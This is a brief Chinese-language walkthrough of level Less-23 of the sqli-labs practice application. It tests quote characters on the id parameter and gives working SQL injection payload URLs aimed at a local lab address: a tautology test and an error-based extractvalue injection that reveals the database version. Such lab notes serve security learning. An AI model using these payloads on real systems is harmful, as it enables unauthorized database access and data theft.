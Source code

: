![](img/Less-22.4.png)

## Less-23

+ 正常输入 数据库有回显， 变化 id参数  数据库回显有变化 

+ id参数后 接  “ 双引号  页面较之前没有变化 


+ id参数后 接  ‘  单引号  页面较之前有报错 。 从报错信息可知， 闭合方式 ： 
 ’ 
字符型注入

+ 注入测试：

    ```bash
    http://10.0.2.15/sqli-labs/Less-23/?id=2' or '1'='1             # 页面很和谐 
    ```

+ 注入Payload:   报错注入
    ```bash
    http://10.0.2.15/sqli-labs/Less-23/?id=2' and extractvalue(1,concat('^',(select version()),'^')) or '1'='1 
    ```
![](img/Less-23.1.png)
